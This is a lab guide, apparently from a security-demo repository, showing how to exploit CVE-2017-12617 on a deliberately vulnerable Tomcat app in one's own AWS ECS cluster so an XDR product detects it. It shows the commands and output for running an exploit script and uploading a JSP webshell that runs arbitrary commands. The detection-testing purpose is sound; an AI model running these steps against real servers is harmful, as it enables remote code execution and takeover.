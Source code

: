 # Scenario: Detect Tomcat RCE

***Requires XDR for Containers***

## Prerequisites

- Vision One connected to your AWS Account
- Playground One ECS Cluster (Any variant)
    - Running app: Java-Goof running on vulnerable Tomcat
- Extracted contents of `exploit.zip`

Ensure to have an ECS Cluster up and running:

```sh
pgo --apply ecs
```

If you need to extract the exploits unzip with the password `virus`:

```sh
cd ${ONEPATH}
unzip exploits.zip
```

## Disclaimer

> ***Note:*** It is highly recommended to have the `awsone.access_ip` set to a single IP or at least a small CIDR before deploying the ECS cluster. This will prevent anonymous users playing with your environmnent. Remember: we're using vulnerable apps.

## Exploiting

First, retrieve the load balancer DNS name

```sh
pgo -o ecs
```

Example output with ECS EC2:

```sh
cluster_name_ec2 = "playground-ecs-ec2"
loadbalancer_dns_ec2 = "playground-ecs-ec2-135067951.eu-central-1.elb.amazonaws.com"
```

If you are using ECS Fargate, the variable is named `loadbalancer_dns_fargate`.

### Checking if app server is vulnerable

Now you can check to see if the tomcat server is vulnerable.
If it is you should see something similar to the following:

```sh
cd ${ONEPATH}/exploits/tomcat-rce/
python3 exploit.py -u http://playground-ecs-ec2-135067951.eu-central-1.elb.amazonaws.com
```

```ascii



   _______      ________    ___   ___  __ ______     __ ___   __ __ ______ 
  / ____\ \    / /  ____|  |__ \ / _ \/_ |____  |   /_ |__ \ / //_ |____  |
 | |     \ \  / /| |__ ______ ) | | | || |   / /_____| |  ) / /_ | |   / / 
 | |      \ \/ / |  __|______/ /| | | || |  / /______| | / / '_ \| |  / /  
 | |____   \  /  | |____    / /_| |_| || | / /       | |/ /| (_) | | / /   
  \_____|   \/   |______|  |____|\___/ |_|/_/        |_|____\___/|_|/_/    
                                                                           
                                                                           

[@intx0x80]


Poc Filename  Poc.jsp
http://playground-ecs-ec2-135067951.eu-central-1.elb.amazonaws.com it's Vulnerable to CVE-2017-12617
http://playground-ecs-ec2-135067951.eu-central-1.elb.amazonaws.com/Poc.jsp
```

If you point a browser at <http://playground-ecs-ec2-135067951.eu-central-1.elb.amazonaws.com/Poc.jsp> you should get a test page with a bunch of "A" char's - that shows the exploit worked.

Vision One Observed Attack Techniques:

![alt text](images/xdr_for_containers-ecs-tomcat-rce-01.png "Poc")

### Inject the exploit and run commands in the container from browser 

Next, inject the exploit and just hit `ENTER` at the shell prompt that comes up. (Ignore the error afterward)

```sh
python3 exploit.py -u http://playground-ecs-ec2-135067951.eu-central-1.elb.amazonaws.com -p pwn
```

```ascii



   _______      ________    ___   ___  __ ______     __ ___   __ __ ______ 
  / ____\ \    / /  ____|  |__ \ / _ \/_ |____  |   /_ |__ \ / //_ |____  |
 | |     \ \  / /| |__ ______ ) | | | || |   / /_____| |  ) / /_ | |   / / 
 | |      \ \/ / |  __|______/ /| | | || |  / /______| | / / '_ \| |  / /  
 | |____   \  /  | |____    / /_| |_| || | / /       | |/ /| (_) | | / /   
  \_____|   \/   |______|  |____|\___/ |_|/_/        |_|____\___/|_|/_/    
                                                                           
                                                                           

[@intx0x80]


Uploading Webshell .....
$ 
```

Either in the shell or from within your browser <http://playground-ecs-ec2-135067951.eu-central-1.elb.amazonaws.com/pwn.jsp> test some commands like `whoami` or `dpkg -l`.

Your browser should present you a blank page with a form containing single field and a `Run` button. Type any Linux command you want and submit the form. The results will populate the page.

Vision One Observed Attack Techniques:

![alt text](images/xdr_for_containers-ecs-tomcat-rce-02.png "Exploit")
